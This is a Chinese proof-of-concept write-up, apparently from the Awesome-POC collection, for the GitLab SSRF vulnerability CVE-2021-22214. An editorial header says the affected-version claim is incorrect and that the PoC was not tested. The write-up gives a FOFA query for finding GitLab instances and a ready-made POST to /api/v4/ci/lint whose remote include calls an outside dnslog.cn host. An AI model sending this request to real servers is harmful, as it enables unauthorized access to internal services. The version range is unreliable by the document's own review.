



## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：UnboundedGitLab&gt;10.5 incorrect as affected statement; no fix range or configuration

代码与实验材料：One lint JSON request, hard-coded DNS endpoint, screenshot result only

来源证据范围：Vulfocus portal/upstream attribution only

- **事实待核（1）**：Version lacks upper bounds and correct introduction inclusion; FOFA metadata lost app=GitLab query。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：DNS observation alone doesn't establish arbitrary internal data access; Host empty and no lab build。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# GitLab SSRF漏洞 CVE-2021-22214

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 漏洞描述

GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

## 漏洞影响

```
Gitlab > 10.5
```

## 网络测绘

```
app="GitLab"
```

## 环境搭建

http://vulfocus.fofa.so/




## 漏洞复现

登录页面如下





发送请求包

```plain
POST /api/v4/ci/lint HTTP/1.1
Host: 
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{"include_merged_yaml": true, "content": "include:\n  remote: http://965qaw.dnslog.cn/api/v1/targets?test.yml"}
```





---

> 来源：Threekiii/Awesome-POC
